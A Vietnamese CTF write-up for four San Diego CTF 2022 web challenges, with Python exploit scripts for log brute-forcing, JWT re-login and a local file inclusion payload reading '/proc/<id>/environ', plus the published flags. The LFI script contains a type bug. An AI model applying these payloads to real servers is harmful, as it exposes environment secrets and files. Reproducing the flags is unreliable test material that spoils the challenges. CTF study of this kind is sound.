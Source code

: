 ```yaml
---
title: San Diego CTF 2022
description: From San Diego CTF
author: to^
date: 2022-05-09 22:07:00 +0700
categories: [WebSec, CTF]
tags: [LFI]     # TAG names should always be lowercase
img_path: /assets/img/sandiegoctf2022
image:
 src: logo.png
 alt: san diego logo
 width: 1000
 height: 400
---
```


Sollution của 4 bài web.

## Apollo 1337

Bài này chỉ để làm quen với các tool nên coi hết video của họ là solve được

> **sdctf{0ne_GiANT_L3AP_4_tH3_NeXT_gENERa7i0n}**
{: .prompt-info  }

## Lots of Logs

Hướng đi của bài này là bruteforce các log file theo dạng `https://logs.sdc.tf/logs/<year>/<month>/<date>/<weekday>.log`

script exploit:

```py
from datetime import datetime
import requests

TARGET = "https://logs.sdc.tf/logs/"

found = False
for year in range (2018, 2019):
    for month in range (1,12):
        for date in range (1,31):
            try: 
                current = datetime(year,month, date).strftime("%A")[0:3]
                r = requests.get(TARGET + f"{year}/{month}/{date}/{current}.log")
                if "sdc" in r.text: 
                    print("[-] Found with url: " + TARGET + f"{year}/{month}/{date}/{current}.log")
                    quit()
            except:
                pass
```

> **sdctf{b3tr4y3d_by_th3_l0gs_8a4dfd}**
{: .prompt-info  }

## JaWT that down!

Bài này khó ở chỗ jwt chỉ có giá trị trong một khoảng thời gian ngắn (trường exp) nên cách giải quyết sẽ là re-login sau mỗi request. Mỗi response trả về tương ứng sẽ tướng ứng với từng kí tự tiếp theo của flag.

script exploit:

```py
import requests

s = requests.Session()
TARGET = "https://jawt.sdc.tf/"

cre = {"username": "AzureDiamond", "password": "hunter2"}


url = TARGET + "s"
flag = "s"       

while True:
    s = requests.Session()
    r = s.post(TARGET + 'login', data=cre)
    r = s.get(url)
    if r.status_code != 200:
        break   
    url += '/' + r.text   
 
    flag += r.text
    print(flag)


print(f"[-]Flag: {flag}")
```

> **sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3d}**
{: .prompt-info  }

## CURL Up and Read

Server cho một ô để nhập url, sau đó hiển thị response nhận được từ url này cho user. Hướng đi của bài là khai thác lỗi `LFI` bằng payload: `file:///proc/<id>/environ`. Ở đây `curl` command sẽ chạy trong child process do hàm `execFileSync` nên việc ta cần làm là bruteforce id và grep flag.

```py
from base64 import b64encode
import requests

TARGET = "https://curl.sdc.tf"

for i in range (1000):
    print(f"[-] Trying {i}")
    data = '{"url": "file:///proc/ID/environ"}'.replace('ID', i)
    data_base64 = b64encode(data.encode()).decode()
    r = requests.get(TARGET + "/read/" + data_base64)
    if "Internal Server Error" not in r.text:
        if "sdctf" in r.text:
            print("[-] Found: " + TARGET + "/read/" + data_base64)
            break
```

> **sdctf{CURL_up_aNd_L0c@L_F1le_incLuSi0N}**
{: .prompt-info  }

